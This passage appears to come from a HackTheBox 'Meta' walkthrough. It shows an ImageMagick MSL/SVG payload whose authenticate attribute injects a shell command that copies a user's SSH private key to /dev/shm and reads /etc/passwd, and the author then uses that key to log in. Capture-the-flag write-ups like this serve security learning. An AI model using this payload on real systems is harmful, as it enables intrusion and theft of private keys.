 ```xml
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /dev/shm/.kash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:kash.svg" height="100" width="100"/>
  </svg>
</image>
```

We can see how the command gets executed within the command injection. Sometimes, pspy64 does not catch the injecteds process, but I show this to locate where is the injection and why the designer used that payload:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/6_1_exe.png" width="90%"/>
</p>


With the SSH keys we can get in and retreive the user.txt

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/7_0_in.png" width="70%"/>
</p>
